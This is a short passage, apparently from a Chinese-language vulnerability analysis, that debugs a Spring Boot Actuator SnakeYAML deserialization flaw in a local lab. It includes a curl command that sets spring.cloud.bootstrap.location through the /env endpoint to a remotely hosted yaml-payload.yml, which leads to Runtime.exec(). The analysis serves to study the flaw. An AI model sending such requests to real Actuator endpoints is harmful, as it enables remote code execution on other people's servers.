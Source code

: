 对应代码在 `ServiceLoader.LazyIterator` 类的 `nextService()` 



![image-20191128194829490](/assets/images/actuator_cloud_boostrap_location/snakeyml-debug.png)



分析完 YAML 反序列化后，我们来看一下在 Spring Boot Actuator 中时的执行流程，漏洞环境和代码见 master 分支

以 debug 模式运行漏洞环境，同样在 `Runtime.exec()` 方法下断点

首先修改 `spring.cloud.bootstrap.location`

```shell
curl -XPOST http://127.0.0.1:61234/env -d "spring.cloud.bootstrap.location=http://127.0.0.1:63712/yaml-payload.yml"  
```

